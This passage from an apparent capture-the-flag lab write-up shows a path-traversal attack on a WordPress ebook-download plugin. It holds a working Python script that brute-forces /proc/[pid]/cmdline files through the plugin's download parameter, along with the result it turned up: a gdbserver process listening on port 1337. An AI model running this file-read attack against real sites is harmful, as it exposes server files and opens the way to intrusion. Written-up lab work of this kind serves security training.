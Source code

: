 ![[curl_get.png]]

Database credentials found but not directly useful.

---

## 3. Foothold via `/proc` Enumeration

### 3.1 What is `/proc/{PID}/cmdline`?

In Linux, `/proc/{PID}/cmdline` contains the full command line used to start a process, without spaces between arguments.  
This makes it useful for identifying how a process was launched — in our case, to investigate port 1337.

---

### 3.2 Brute Force Script

We brute-force `/proc/[pid]/cmdline` via the vulnerable plugin:

``` python
from pwn import * 
import requests, signal, time, sys

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def makeRequest():
    p1 = log.progress("Brute Force Attack")
    p1.status("Starting brute force attack")
    time.sleep(2)
    
    for i in range(1, 1000):
        p1.status("Trying with PATH /proc/%s/cmdline" % str(i))
        url = main_url + "/proc/" + str(i) + "/cmdline"
        r = requests.get(url)

        if len(r.content) > 82:  # Filter common repetitive entries
            print("------------------------------------------------")
            log.info("PATH: /proc/%s/cmdline" % str(i))
            log.info("Total length: %s" % len(r.content))
            print(r.content)
            print("------------------------------------------------")

if __name__ == '__main__':
    makeRequest()
    ```

Filtering results reveals:

`/bin/sh -c while true; do su user -c "cd /home/user; gdbserver --once 0.0.0.0:1337 /bin/true;"; done`

---

### 3.3 What is GDB and gdbserver?

```
